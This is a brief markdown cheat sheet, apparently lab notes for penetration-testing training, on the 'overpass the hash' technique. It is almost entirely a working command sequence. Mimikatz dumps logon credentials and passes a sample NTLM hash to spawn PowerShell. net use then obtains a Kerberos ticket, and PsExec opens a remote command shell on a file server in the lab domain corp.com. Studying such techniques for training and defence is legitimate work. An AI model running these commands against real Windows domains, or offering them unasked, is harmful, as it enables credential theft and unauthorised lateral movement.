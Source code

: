 # Overpass The Hash

Mimikatz

```
privilege::debug
sekurlsa::logonpasswords
```

Need username and NTLM hashes

```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

Use klist to list cached Kerberos tickets

```
klist
```

Try authenticate to any fileshare

```
net use \\files04
```

Check klist again

```
klist
```

We can now use psexec.exe to authenticate

```
.\PsExec.exe \\files04 cmd
```
